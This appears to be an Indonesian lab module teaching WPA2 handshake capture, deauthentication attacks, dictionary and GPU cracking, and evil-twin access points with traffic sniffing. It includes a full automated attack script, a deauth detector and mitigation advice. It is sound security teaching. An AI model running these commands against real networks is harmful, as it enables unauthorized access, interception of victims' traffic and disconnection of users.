





# 📡 Pertemuan 4: Wireless Security - WPA2 Cracking & Deauth Attack

## Daftar Isi
1. [Pengantar Keamanan Wi-Fi](#1-pengantar-keamanan-wi-fi)
2. [Cara Kerja WPA2 Handshake](#2-cara-kerja-wpa2-handshake)
3. [Hands-On: Setup Lab Wireless](#3-hands-on-setup-lab-wireless)
4. [Hands-On: Monitor Mode & Network Scanning](#4-hands-on-monitor-mode--network-scanning)
5. [Hands-On: Capturing WPA2 Handshake](#5-hands-on-capturing-wpa2-handshake)
6. [Hands-On: Deauthentication Attack](#6-hands-on-deauthentication-attack)
7. [Hands-On: Cracking Handshake dengan Aircrack-ng](#7-hands-on-cracking-handshake-dengan-aircrack-ng)
8. [Hands-On: Evil Twin Attack dengan Airbase-ng](#8-hands-on-evil-twin-attack-dengan-airbase-ng)
9. [Deteksi dan Pencegahan](#9-deteksi-dan-pencegahan)
10. [Latihan Mandiri](#10-latihan-mandiri)

---

## 1. Pengantar Keamanan Wi-Fi

### Evolusi Keamanan Wi-Fi



### Mengapa WPA2 Masih Rentan?

WPA2 menggunakan **Pre-Shared Key (PSK)** yang rentan terhadap serangan **offline dictionary attack** . Saat client terhubung, terjadi **4-way handshake** yang bisa ditangkap dan di-crack offline.

**Kerentanan Utama** :
- **Handshake bisa ditangkap**: Proses autentikasi diekspos di udara
- **Password lemah**: Dictionary attack masih efektif
- **Deauth tidak terenkripsi**: Management frame tidak dilindungi

### Aircrack-ng Suite

Aircrack-ng adalah toolkit lengkap untuk wireless security auditing :

| Tool | Fungsi |
|------|--------|
| **airmon-ng** | Mengaktifkan/menonaktifkan monitor mode  |
| **airodump-ng** | Sniffing packet dan scanning network  |
| **aireplay-ng** | Packet injection (deauth, fake auth)  |
| **aircrack-ng** | Cracking WEP/WPA2 key  |
| **airbase-ng** | Fake access point / evil twin  |
| **airdecap-ng** | Decrypt captured packets with known key  |

---

## 2. Cara Kerja WPA2 Handshake

### 4-Way Handshake



### Informasi dalam Handshake

Saat handshake tertangkap, kita mendapatkan :
- **BSSID** (MAC address AP)
- **ESSID** (Nama jaringan)
- **ANonce dan SNonce**
- **MIC** (Message Integrity Code) - inilah yang di-crack

### Prinsip Cracking

```bash
# Rumus matematika sederhana:
PSK = PBKDF2(Passphrase, ESSID, 4096, 256)

# Kita punya:
- ESSID (dari handshake)
- ANonce, SNonce, MAC addresses (dari handshake)
- MIC (dari handshake)

# Cracking = Mencoba passphrase → hitung PSK → hitung PTK → 
#            hitung MIC → bandingkan dengan MIC asli
```

---

## 3. Hands-On: Setup Lab Wireless

### 3.1 Persiapan Hardware

**Peringatan Penting**: Praktik ini hanya untuk jaringan milik sendiri! 

**Kebutuhan**:
- **WiFi adapter dengan monitor mode support** (chipset seperti Atheros, Ralink, atau Realtek yang support injection)
- **Kali Linux** (langsung atau VM dengan USB passthrough)
- **Target**: WiFi pribadi Anda sendiri

### 3.2 Pasang WiFi Adapter ke VM

**Jika menggunakan VirtualBox**:
```bash
# 1. Pasang adapter USB ke komputer
# 2. Di VirtualBox: Devices → USB → Pilih adapter WiFi Anda
# 3. Di Kali: cek apakah terdeteksi
lsusb
# Cari vendor WiFi adapter Anda
```

**Jika menggunakan VMware**:
```bash
# 1. VM → Removable Devices → Pilih WiFi adapter → Connect
# 2. Cek deteksi
iwconfig
# Akan muncul interface baru seperti wlan0
```

### 3.3 Install Tools

```bash
# Masuk sebagai root (penting!)
sudo su

# Update dan install aircrack-ng suite
apt update
apt install -y aircrack-ng

# Install tools pendukung
apt install -y macchanger xterm

# Verifikasi instalasi
aircrack-ng --help
airodump-ng --help
```

### 3.4 Cek Interface Wireless

```bash
# Lihat interface wireless yang tersedia
iwconfig
# Output: wlan0     IEEE 802.11  ESSID:off/any

# Atau dengan
ip a | grep wlan
```

---

## 4. Hands-On: Monitor Mode & Network Scanning

### 4.1 Managed Mode vs Monitor Mode



**Managed Mode**: Mode normal untuk koneksi internet 
**Monitor Mode**: Mode listening untuk menangkap semua packet di udara 

### 4.2 Kill Interfering Processes

```bash
# Matikan proses yang bisa mengganggu monitor mode
airmon-ng check kill
# Output: Killing these processes: NetworkManager wpa_supplicant

# Verifikasi
systemctl status NetworkManager
# Seharusnya inactive
```

### 4.3 Aktifkan Monitor Mode

```bash
# Cek nama interface (misal: wlan0)
iwconfig

# Aktifkan monitor mode
airmon-ng start wlan0
# Output: (mac80211 monitor mode vif enabled for [phy0]wlan0 on wlan0mon)

# Cek interface baru
iwconfig
# Akan muncul wlan0mon dengan mode:Monitor
```

**Jika ingin kembali ke managed mode nanti**:
```bash
airmon-ng stop wlan0mon
systemctl start NetworkManager
```

### 4.4 Scanning Jaringan dengan airodump-ng

```bash
# Scan semua jaringan di sekitar
airodump-ng wlan0mon
```

**Output airodump-ng** :
```
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 00:11:22:33:44:55  -45  120        32    0     6   54   WPA2 CCMP   PSK   RumahSaya
 66:77:88:99:AA:BB  -60  85         0     0     1   130  WPA2 CCMP   PSK   TetanggaWiFi
```

**Kolom Penting**:
- **BSSID**: MAC address Access Point 
- **PWR**: Kekuatan sinyal (semakin mendekati 0, semakin kuat) 
- **CH**: Channel 
- **ENC**: Enkripsi (WPA2, WPA3, dll) 
- **ESSID**: Nama jaringan 

### 4.5 Fokus pada Target Tertentu

```bash
# Setelah mendapat target, catat:
# BSSID: 00:11:22:33:44:55 (contoh)
# CH: 6
# ESSID: RumahSaya

# Fokuskan scan ke target saja
airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

Parameter :
- `--bssid`: Filter berdasarkan MAC address AP
- `-c`: Channel yang digunakan
- `-w`: Prefix nama file output (akan menghasilkan .cap, .csv, .log)

**Biarkan terminal ini berjalan** (jangan ditutup) karena akan digunakan untuk menangkap handshake.

---

## 5. Hands-On: Capturing WPA2 Handshake

### 5.1 Memahami Apa yang Kita Cari

Saat menjalankan airodump-ng yang terfokus, kita mencari indikator:
```
CH  6 ][ Elapsed: 2 mins ][ 2025-02-25 14:30 ][ WPA handshake: 00:11:22:33:44:55
```

Tanda **"[ WPA handshake: ... ]"** di pojok kanan atas menunjukkan handshake berhasil tertangkap .

### 5.2 Cara Kerja Penangkapan Handshake



### 5.3 Menunggu Handshake Natural (Pasif)

```bash
# Di terminal 1: Jalankan airodump terfokus
airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon

# Tunggu... bisa beberapa menit hingga jam
# Jika ada client yang baru connect, handshake otomatis tertangkap
```

**Kelemahan metode ini** :
- Bisa sangat lama jika tidak ada client baru connect
- Tidak efektif untuk pengujian

### 5.4 Verifikasi Handshake dengan Wireshark (Opsional)

```bash
# Install wireshark
apt install -y wireshark

# Buka file capture
wireshark capture-01.cap &

# Filter untuk melihat EAPOL (4-way handshake)
eapol
# Jika muncul 4 paket EAPOL, handshake lengkap
```

---

## 6. Hands-On: Deauthentication Attack

### 6.1 Apa itu Deauth Attack?

**Deauthentication attack** mengirim paket palsu untuk memutuskan client dari AP . Setelah terputus, client akan otomatis mencoba reconnect, dan saat itulah handshake tertangkap .

### 6.2 Mengapa Deauth Attack Efektif?



### 6.3 Identifikasi Client yang Terhubung

Dari terminal airodump yang berjalan, lihat bagian bawah:
```
BSSID              STATION            PWR   Rate    Lost  Frames  Probe
00:11:22:33:44:55  AA:BB:CC:DD:EE:FF  -35   54-54   0     120
00:11:22:33:44:55  11:22:33:44:55:66  -60   1-11    5     45
```

**STATION**: MAC address client yang terhubung 

### 6.4 Menjalankan Deauth Attack

**Buka terminal baru** (jangan tutup terminal airodump):

```bash
# Deauth ke semua client (broadcast)
aireplay-ng --deauth 5 -a 00:11:22:33:44:55 wlan0mon
```

Parameter :
- `--deauth` atau `-0`: Mode deauthentication
- `5`: Jumlah paket deauth yang dikirim (0 untuk terus menerus)
- `-a`: BSSID target AP
- `wlan0mon`: Interface monitor

**Deauth ke client spesifik (lebih efektif)** :
```bash
aireplay-ng --deauth 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```

### 6.5 Melihat Hasil

**Di terminal airodump**, perhatikan:
```
CH  6 ][ Elapsed: 3 mins ][ 2025-02-25 14:35 ][ WPA handshake: 00:11:22:33:44:55
```

Saat melihat "WPA handshake", handshake sudah tertangkap! 

### 6.6 Troubleshooting Deauth

Jika deauth tidak bekerja :

| Masalah | Solusi |
|---------|--------|
| Terlalu jauh dari client | Mendekatlah ke target |
| Client ignore broadcast | Gunakan -c untuk target spesifik  |
| Bedah standar (b/g/n/ac) | Pastikan adapter support standar client |
| Tidak ada ACK | Cek dengan tcpdump apakah packet sampai |

**Cek dengan tcpdump**:
```bash
# Di terminal lain
tcpdump -i wlan0mon -n -e -v 'icmp or arp'
```

---

## 7. Hands-On: Cracking Handshake dengan Aircrack-ng

### 7.1 Persiapan Wordlist

```bash
# Rockyou.txt adalah wordlist klasik
ls -la /usr/share/wordlists/rockyou.txt

# Jika belum ada, extract
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# Atau buat wordlist sederhana sendiri
cat > mywordlist.txt << EOF
12345678
password
qwertyui
11111111
wifipassword
rumahsaya123
EOF
```

### 7.2 Menjalankan Aircrack-ng

```bash
# Cek file capture yang dihasilkan
ls -la capture*
# capture-01.cap, capture-01.csv, dll

# Jalankan aircrack-ng
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

Parameter :
- `capture-01.cap`: File hasil tangkapan handshake
- `-w`: Wordlist untuk dictionary attack

### 7.3 Output Aircrack-ng

```
                               Aircrack-ng 1.7

      [00:00:05] 12820/10304628 keys tested (124.42 k/s)

      Time left: 1 hour, 22 minutes, 34 seconds               0.12%

                           KEY FOUND! [ rumasaya123 ]

      Master Key     : 12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF
                       12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF

      Transient Key  : 12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF
                       12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF
                       12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF
                       12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF

      EAPOL HMAC     : 12 34 56 78 90 AB CD EF 12 34 56 78 90 AB CD EF
```

### 7.4 Mempercepat Cracking dengan Pipe

```bash
# Gunakan grep untuk filter wordlist (contoh: hanya 8 karakter)
grep -E '^.{8}$' /usr/share/wordlists/rockyou.txt > 8char.txt

# Cracking dengan wordlist terfilter
aircrack-ng capture-01.cap -w 8char.txt
```

### 7.5 Menggunakan GPU dengan Hashcat (Alternatif Lebih Cepat)

```bash
# Convert .cap ke .hccapx untuk hashcat
apt install -y hashcat hashcat-utils

# Convert format
cap2hccapx capture-01.cap capture.hccapx

# Cracking dengan hashcat (gunakan GPU)
hashcat -m 2500 capture.hccapx /usr/share/wordlists/rockyou.txt
```

---

## 8. Hands-On: Evil Twin Attack dengan Airbase-ng

### 8.1 Apa itu Evil Twin?

**Evil Twin** adalah AP palsu dengan ESSID yang sama dengan target asli . Korban bisa connect ke AP palsu dan penyerang bisa menangkap kredensial.

### 8.2 Membuat Fake AP dengan Airbase-ng

```bash
# Setup
airmon-ng start wlan0
# Dapatkan interface monitor (wlan0mon)

# Buat fake AP dengan nama yang sama dengan target
airbase-ng -e "RumahSaya" -c 6 wlan0mon
```

Parameter :
- `-e`: ESSID (nama jaringan)
- `-c`: Channel

### 8.3 Konfigurasi DHCP Server untuk Evil Twin

```bash
# Setup interface untuk fake AP
ifconfig at0 up
ifconfig at0 192.168.1.1 netmask 255.255.255.0

# Install DHCP server
apt install -y isc-dhcp-server

# Konfigurasi DHCP
cat > /etc/dhcp/dhcpd.conf << EOF
subnet 192.168.1.0 netmask 255.255.255.0 {
    range 192.168.1.100 192.168.1.200;
    option routers 192.168.1.1;
    option domain-name-servers 8.8.8.8, 8.8.4.4;
}
EOF

# Jalankan DHCP server
dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

### 8.4 Sniffing Traffic Korban

```bash
# Tangkap semua traffic korban yang connect ke fake AP
tcpdump -i at0 -n -A

# Atau gunar ettercap untuk sniffing lebih canggih
ettercap -T -i at0 -M arp:remote // //
```

### 8.5 Kombinasi Deauth + Evil Twin

```bash
# Terminal 1: Fake AP
airbase-ng -e "RumahSaya" -c 6 wlan0mon

# Terminal 2: Deauth client dari AP asli
aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon

# Client akan disconnect dari AP asli dan mungkin connect ke fake AP
```

---

## 9. Deteksi dan Pencegahan

### 9.1 Deteksi Serangan Wireless

**Mendeteksi Deauth Attack**:
```bash
# Monitor dengan tcpdump untuk deauth packets
tcpdump -i wlan0mon -n -e -v 'type mgt subtype deauth'

# Akan terlihat banyak deauth dalam waktu singkat
```

**Mendeteksi Fake AP**:
```bash
# Bandingkan BSSID dengan AP asli
# AP asli: BSSID tertentu
# Fake AP: BSSID berbeda tapi ESSID sama

# Gunai airodump-ng untuk melihat semua AP dengan ESSID sama
airodump-ng --essid "RumahSaya" wlan0mon
```

### 9.2 Pencegahan untuk Admin Jaringan

| Mitigasi | Keterangan  |
|----------|--------------------------|
| **Gunakan WPA3** | SAE (Simultaneous Authentication of Equals) melindungi dari offline dictionary attack |
| **Password Kuat** | Minimal 12 karakter dengan campuran huruf, angka, simbol |
| **Disable WPS** | WPS mudah di-brute force |
| **MAC Filtering** | Whitelist perangkat yang boleh connect (tidak 100% aman) |
| **Monitor Jaringan** | Deteksi anomali seperti deauth flooding |
| **Update Firmware** | AP dengan firmware terbaru punya patch keamanan |

### 9.3 Deteksi dengan Script Sederhana

```bash
cat > detect_deauth.sh << 'EOF'
#!/bin/bash
# Deteksi deauth attack sederhana

INTERFACE="wlan0mon"
THRESHOLD=50  # Jumlah deauth per menit

echo "Monitoring deauth attacks on $INTERFACE..."

tcpdump -i $INTERFACE -n -e -v 'type mgt subtype deauth' 2>/dev/null | \
while read line; do
    echo "$(date): Deauth packet detected"
    
    # Count deauth in last minute
    COUNT=$(tcpdump -i $INTERFACE -n -e -t -G 60 -W 1 \
            'type mgt subtype deauth' 2>/dev/null | wc -l)
    
    if [ $COUNT -gt $THRESHOLD ]; then
        echo "ALERT: Possible deauth attack! $COUNT deauth packets in last minute"
    fi
done
EOF

chmod +x detect_deauth.sh
./detect_deauth.sh
```

### 9.4 Pengamanan untuk Pengguna Rumahan

1. **Gunakan password kuat** minimal 12 karakter
2. **Aktifkan WPA3** jika router mendukung
3. **Update firmware router** secara berkala
4. **Matikan WPS** di router
5. **Gunakan VPN** untuk enkripsi end-to-end
6. **Waspada saat connect** - perhatikan sertifikat HTTPS

---

## 10. Latihan Mandiri

### Latihan 1: Eksplorasi Airodump-ng

```bash
# 1. Scan semua jaringan
airodump-ng wlan0mon

# 2. Catat 5 jaringan terdekat dengan ESSID, BSSID, Channel, Encryption

# 3. Fokus pada satu jaringan
airodump-ng --bssid <BSSID> -c <CH> -w latihan1 wlan0mon

# 4. Biarkan 5 menit, lihat berapa client yang terdeteksi
```

### Latihan 2: Deauth Attack Simulasi

```bash
# Script untuk deauth dengan opsi
cat > deauth_lab.sh << 'EOF'
#!/bin/bash

echo "=== DEAUTH ATTACK LAB ==="
echo "Peringatan: Hanya untuk jaringan sendiri!"

read -p "BSSID target: " bssid
read -p "Channel: " channel
read -p "Client MAC (kosongkan untuk broadcast): " client

# Terminal 1: Airodump
xterm -e "airodump-ng --bssid $bssid -c $channel -w lab_capture wlan0mon" &

sleep 2

# Terminal 2: Deauth
if [ -z "$client" ]; then
    xterm -e "aireplay-ng --deauth 10 -a $bssid wlan0mon"
else
    xterm -e "aireplay-ng --deauth 10 -a $bssid -c $client wlan0mon"
fi

echo "Selesai. Cek file capture lab_capture-01.cap"
EOF

chmod +x deauth_lab.sh
./deauth_lab.sh
```

### Latihan 3: Analisis Capture dengan Wireshark

```bash
# Buka file capture dengan wireshark
wireshark capture-01.cap &

# Filter untuk melihat:
# 1. EAPOL (4-way handshake): eapol
# 2. Deauth packets: wlan.fc.type_subtype == 0x000c
# 3. Beacon frames: wlan.fc.type_subtype == 0x0008

# Identifikasi di frame ke berapa handshake tertangkap
```

### Latihan 4: Buat Custom Wordlist dengan Crunch

```bash
# Install crunch
apt install -y crunch

# Buat wordlist berdasarkan pola (contoh: wifi + 4 digit angka)
crunch 8 8 -t wifi%%%% -o wifi_wordlist.txt

# Isi wordlist:
# wifi0000, wifi0001, ... wifi9999

# Coba crack dengan wordlist ini
aircrack-ng capture-01.cap -w wifi_wordlist.txt
```

### Latihan 5: Monitor Mode Cleanup

```bash
# Script untuk cleanup setelah praktik
cat > cleanup_wifi.sh << 'EOF'
#!/bin/bash

echo "[+] Menghentikan monitor mode..."
airmon-ng stop wlan0mon 2>/dev/null

echo "[+] Mematikan proses aircrack..."
killall airodump-ng 2>/dev/null
killall aireplay-ng 2>/dev/null
killall airbase-ng 2>/dev/null

echo "[+] Merestart NetworkManager..."
systemctl start NetworkManager
systemctl start wpa_supplicant

echo "[+] Menghapus file temporary..."
rm -f *.cap *.csv *.log *.netxml *.hccapx

echo "[+] Done! Koneksi WiFi seharusnya kembali normal."
EOF

chmod +x cleanup_wifi.sh
sudo ./cleanup_wifi.sh
```

### Latihan 6: Eksperimen dengan Airgraph-ng

```bash
# Install airgraph-ng
apt install -y airgraph-ng

# Jalankan airodump dengan output CSV
airodump-ng --bssid <BSSID> -c <CH> -w graph wlan0mon

# Setelah dapat data, generate graph
airgraph-ng -i graph-01.csv -g CAPR -o client_graph.png
airgraph-ng -i graph-01.csv -g CPG -o ap_graph.png

# Lihat hasil
eog client_graph.png
```

### Latihan 7: Simulasi Serangan Lengkap

```bash
#!/bin/bash
# Script simulasi serangan lengkap (hanya untuk lab sendiri!)

TARGET_BSSID="00:11:22:33:44:55"  # Ganti dengan BSSID target
TARGET_CH="6"
TARGET_ESSID="RumahSaya"  # Ganti dengan ESSID target
WORDLIST="/usr/share/wordlists/rockyou.txt"

echo "=== WIRELESS SECURITY LAB ==="
echo "Target: $TARGET_ESSID ($TARGET_BSSID)"

# Setup
echo "[1] Mengaktifkan monitor mode..."
airmon-ng check kill
airmon-ng start wlan0

# Scan
echo "[2] Scanning target..."
xterm -e "airodump-ng --bssid $TARGET_BSSID -c $TARGET_CH -w final_capture wlan0mon" &
AIRODUMP_PID=$!
sleep 5

# Deauth
echo "[3] Menjalankan deauth attack..."
aireplay-ng --deauth 5 -a $TARGET_BSSID wlan0mon

# Tunggu handshake
echo "[4] Menunggu handshake (10 detik)..."
sleep 10

# Cek handshake
if aircrack-ng final_capture-01.cap | grep -q "1 handshake"; then
    echo "[5] Handshake tertangkap!"
    
    # Cracking
    echo "[6] Mencoba crack dengan rockyou.txt..."
    aircrack-ng final_capture-01.cap -w $WORDLIST
else
    echo "[5] Handshake TIDAK tertangkap. Coba lagi dengan deauth lebih banyak."
fi

# Cleanup
echo "[7] Membersihkan..."
kill $AIRODUMP_PID
airmon-ng stop wlan0mon
systemctl start NetworkManager

echo "Selesai!"
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| Cek interface | `iwconfig` |
| Kill interfering processes | `airmon-ng check kill` |
| Aktifkan monitor mode | `airmon-ng start wlan0` |
| Scan jaringan | `airodump-ng wlan0mon` |
| Fokus ke target | `airodump-ng --bssid <BSSID> -c <CH> -w <file> wlan0mon` |
| Deauth attack | `aireplay-ng --deauth <count> -a <BSSID> wlan0mon` |
| Deauth client spesifik | `aireplay-ng --deauth <count> -a <BSSID> -c <clientMAC> wlan0mon` |
| Crack handshake | `aircrack-ng <file.cap> -w <wordlist>` |
| Buat fake AP | `airbase-ng -e <ESSID> -c <CH> wlan0mon` |
| Matikan monitor mode | `airmon-ng stop wlan0mon` |
| Restart network | `systemctl start NetworkManager` |

---

## ⚠️ Disclaimer dan Etika

**PENTING UNTUK DIPAHAMI** :

1. **Izin**: Semua praktik di atas **HANYA** untuk jaringan yang Anda miliki atau memiliki izin tertulis untuk diuji.

2. **Legalitas**: Mengakses jaringan orang lain tanpa izin adalah **ILEGAL** di hampir semua negara dan dapat mengakibatkan:
   - Tuntutan pidana
   - Denda besar
   - Penjara

3. **Tujuan Edukasi**: Materi ini disusun untuk:
   - Memahami kelemahan keamanan Wi-Fi
   - Mempelajari cara melindungi jaringan sendiri
   - Persiapan sertifikasi keamanan (CEH, OSCP, dll)

4. **Tanggung Jawab**: Penggunaan informasi ini untuk aktivitas ilegal sepenuhnya tanggung jawab pelaku.

5. **Lindungi Diri**: Selalu gunakan VPN dan HTTPS untuk melindungi data Anda di jaringan publik.
